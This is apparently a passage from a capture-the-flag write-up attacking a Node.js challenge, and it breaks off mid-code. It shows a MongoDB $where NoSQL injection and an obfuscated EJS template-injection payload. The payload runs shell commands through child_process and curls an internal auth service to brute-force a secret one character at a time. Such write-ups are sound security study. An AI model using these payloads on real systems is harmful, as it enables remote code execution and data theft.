 This route is not actually even used by `app` server, so that is already very suspicious.

Furthermore it has a free NoSQL injection, which means we can apply logic on `note`.

```js
.find({ $where: `this.username == '${username}'` })
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1756003406/20250823224325937.png/e643cb63b2ab18a57574ff638b37ba3e.png)

How useful is it? We can do a char-by-char classic SQL brute force.

Or maybe we can hack the database server!

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1756003695/20250823224815527.png/64dfc1b982dc24e047f39c2aadb37a36.png)

Oh nvm.

I guess I have to do it the char-by-char way.

### but first SSRF
To actually call `auth` server API, we need SSRF.

So how do we do all of the following in synchronous javascript?

- Fetch `http://auth:3000/lookup` a whole lot of times for each char.
- Check the output of them all and look for the one that passed.
- Return the passed back to us.

You see, `toJSON` is a sync method, so if we have anything async we will just get a promise back, which is not helpful.

The main problem is the request part, built-in network stuff in node.js are all async.

But hey, we ran commands sync right? Let's try `curl`.

#### curl

My first prototype works locally, however it errors on the remote.

```js
const ejs = require("ejs");
var XSSFilter = require("xssfilter");
var xssFilter = new XSSFilter();
const forbidden = require("./data/bad_words.json");
const io = { "some data": 1, call: () => console.log("io.call()") };

const prefix = "sec";
const curl = `curl -X POST 'http://auth:3000/lookup'\
  -H 'Content-Type: application/json'\
  -d "{\\"username\\": \\"' || (this.note&&this.note.startsWith('PLACEHOLDER')) || '\\"}"`;

const payload = `<%=eval(atob('B64'))%>`.replace(
  "B64",
  btoa(
    `
const prefix='${prefix}';
const command = atob('${btoa(curl)}');
const cp = process.mainModule.require('child_process');
let found = false;
const charset = \`0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&'()*+,-./:;<=>?@[\\]^_\\\`{|}~\`;
const needEscape = \`\\'"\\\`\`;
for (let c of charset) {
    if(needEscape.includes(c)) {c='\\\\'+c;}
  const flag = prefix + c;
  const data = cp.execSync(command.replace('PLACEHOLDER', flag)).toString();
  if(!data.includes("User not found")){
    Date.prototype.toJSON=()=>flag;
```